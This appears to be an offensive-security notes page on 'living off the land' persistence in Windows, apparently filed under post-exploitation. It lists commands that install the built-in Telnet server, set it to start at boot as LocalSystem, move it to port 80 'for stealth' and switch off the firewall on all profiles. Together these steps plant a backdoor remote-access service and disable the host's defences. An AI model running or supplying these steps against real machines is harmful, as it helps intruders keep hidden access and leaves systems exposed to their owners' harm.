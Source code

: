 # Living off the Land

> [!INFO] No Longer Available :(
> This network protocol has been discontinued in favor of [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Network Ports/SSH/Install Service/Manual/Living off the Land|SSH]] for secure remote authentication.

## 01 - Telnet Server

### 1.1 - Command Prompt

Until Windows 10, all Windows came with a **Telnet server** that you could install as administrator:

```
C:\> Dism.exe /Online /Enable-Feature /FeatureName:TelnetServer

C:\> pkgmgr.exe /iu:"TelnetServer" /quiet
```

Make it **start** when the system is started and **run** it now:

```
C:\> sc.exe config TlntSVR start= auto obj= localsystem
```

Change telnet port (stealth) and disable firewall:

```
C:\> tlntadmn.exe config port=80

C:\> netsh.exe advfirewall set allprofiles state off
```

To uninstall telnet server.

```
C:\> Dism.exe /Online /Disable-Feature /FeatureName:TelnetServer
```